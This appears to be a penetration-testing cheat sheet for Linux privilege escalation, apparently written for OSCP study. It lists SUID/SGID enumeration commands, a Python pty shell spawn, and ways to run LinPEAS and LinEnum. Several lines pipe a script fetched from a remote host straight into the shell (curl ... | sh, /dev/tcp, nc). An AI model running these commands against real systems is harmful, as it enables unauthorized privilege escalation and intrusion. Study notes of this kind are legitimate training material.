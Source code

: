 [windows privilege escalation](https://jok3rsecurity.wordpress.com/windows-privilege-escalation/)

[Windows Privilege Escalation Cheatsheet for OSCP - ByteFellow](https://www.bytefellow.com/windows-privilege-escalation-cheatsheet-for-oscp/)

[C0nd4/OSCP-Priv-Esc](https://github.com/C0nd4/OSCP-Priv-Esc)

## **Linux:**

Find Binaries that will execute as the owner

```bash
find / -perm -u=s -type f 2>/dev/null
```

Find binaries that will execute as the group

```bash
find / -perm -g=s -type f 2>/dev/null
```

Find sticky-bit binaries

```bash
find / -perm -1000 -type d 2>/dev/null
```

If Python is executable as root

```bash
python2.7 -c "import pty;pty.spawn('/bin/sh');"
```

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) - Linux Privilege Escalation Awesome Script

```bash
#From github
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

#Local network
sudo python -m SimpleHTTPServer 80
curl 10.10.10.10/linpeas.sh | sh

#Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh
cat < /dev/tcp/10.10.10.10/80 | sh

#Output to file
linpeas -a > /dev/shm/linpeas.txt
less -r /dev/shm/linpeas.txt #Read with colors
```

- [LinEnum](https://github.com/rebootuser/LinEnum)

```bash
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
    #-k Enter keyword
    #-e Enter export location
    #-t Include thorough (lengthy) tests
    #-s Supply current user password to check sudo perms (INSECURE)
    #-r Enter report name
    #-h Displays this help text
```
